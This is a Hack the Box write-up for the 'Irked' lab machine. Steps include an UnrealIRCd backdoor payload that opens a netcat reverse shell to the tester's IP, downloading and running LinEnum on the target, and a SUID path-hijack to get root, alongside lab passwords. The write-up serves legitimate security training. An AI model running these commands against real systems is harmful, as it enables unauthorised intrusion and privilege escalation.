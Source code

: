 ```yaml
---
title: Irked
tags: linux
description: Write-up for Hack the Box - Irked
---
```


![image](assets/79370935-83cb2b80-7f21-11ea-8294-37f5d3dd9c72.png)

## Overview

Irked is a Debian 8.10 box running a webserver and the UnrealIRCd internet relay chat server.  UnrealIRCd 3.2.8.1 contains a backdoor that allows the execution of any command with the privileges of the user running ircd. I was able to use the backdoor to create a reverse shell to get intial foothold. After some enumeration a file was found in the home folder of djmardov that provided the password for a steg file. The referenced steg file ended up being the image on the main website. Steghide was used to extract the password which allowed for login via ssh with user djmardov. LinEnum was used to do additional enumeration and showed an unusual application with SUID set. The application was exploited to get a root shell.

## Enumeration

**Software**
 
 * Debian GNU/Linux 8.10 (jessie)
 * UnrealIRCd 3.2.8.1

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.117 -oN /mnt/data/boxes/irked/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 80/tcp -  http
* 111/tcp - rpcbind
* 6697/tcp - UnrealIRCd
* 8067/tcp - UnrealIRCd
* 38875/tcp - status (RPC #100024)
* 65534/tcp - irc

## Steps (user)

Browsing to http://10.10.10.117 shows an image with text "IRC is almost working!"

![image](assets/82152134-524dc480-982d-11ea-9676-1990c9add2c3.png)

Running a search for "UnrealIRCd" in searchsploit returned a few results for version 3.2.8.1.

![image](assets/82152534-de60eb80-982f-11ea-834e-5e36a0141f7b.png)

I was able to confirm that the version on the target box was the affected version by connecting to port 6697 via netcat.

```
nc 10.10.10.117 6697
NICK test123
USER test123 test123 10.10.10.117 :realname
```

![image](assets/82152492-90e47e80-982f-11ea-98ce-81dd29635344.png)

I reviewed the code for "Backdoor Command Execution (Metasploit)" and the exploit was pretty straight forward. The format is _AB; + command + \n_. I set up a netcat lisener (nc -lvnp 4200) and sent a command to create a reverse shell.

```
AB;nc -e /bin/sh 10.10.14.5 4200 \n
```

![image](assets/82153275-6b0da880-9834-11ea-8818-9d790299db6c.png)

Enumerating the filesystem I came across a file in /home/djmardov/Documents/ called ".backup". Viewing the contents of this file shows the steg backup password 'UPupDOWNdownLRlrBAbaSSss'

> Note: I was not able to view the user.txt file with the user 'irked'.

![image](assets/82153461-8e852300-9835-11ea-9036-f7c37863b0f5.png)

"Steg" or steganography allows for concealing a file, message, image, or video within another file, message, image, or video. I decided first to see if there was anything hidden in the image on the main site.

```
wget http://10.10.10.117/irked.jpg
```

I used a tool called steghide to determine if there was anything hidden in the file and there was.

```
steghide info irked.jpg
```

![image](assets/82153596-5af6c880-9836-11ea-866c-ccbc5cd07b99.png)

I then ran a command to extract pass.txt, the contents of which showed what looked like a password (Kab6h+m+bbp2J:HG).

```
steghide extract -sf irked.jpg
```

![image](assets/82153797-b1b0d200-9837-11ea-811e-933d2422a4ab.png)

I tried to log in via ssh with user djmardov with the password and was successful.

![image](assets/82153835-f6d50400-9837-11ea-97c9-9f695617dcc8.png)

## Steps (root/system)

I used a tool called [LinEnum](https://github.com/rebootuser/LinEnum) to do some additional enumeration on the machine.

I copied the script to my local working directory and started a python http server.

```
cp ~/tools/LinEnum/LinEnum.sh le.sh
python3 -m http.server
```

On the target I used wget to download the file and then ran it.

```
wget http://10.10.14.5/le.sh
chmod +x ./le.sh && ./le.sh 
```

Reviewing the results I noticed an unusual file (/usr/bin/viewuser) with the SUID (SetUID) permission set.

![image](assets/82154212-503e3280-983a-11ea-9fb0-3277ae870061.png)

> SUID is a special type of file permissions set on a file. Normally when a program runs it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.

Running the viewuser command indicates that this is an application that is being developed to set and test user permissions and is still under active development. There is also an error "/tmp/listusers": not found.

![image](assets/82154425-d8710780-983b-11ea-9db0-dfc91ca4a5db.png)

I was able to create the /tmp/listusers file the app was looking for, and use it to spawn a shell. Because the viewusers command is running as root, I was able to get a shell as root.

```
echo '/bin/bash' > /tmp/listusers
chmod +x /tmp/listusers
/usr/bin/viewuser
```

![image](assets/82154569-c6dc2f80-983c-11ea-8cfe-ba8f4aba1bef.png)

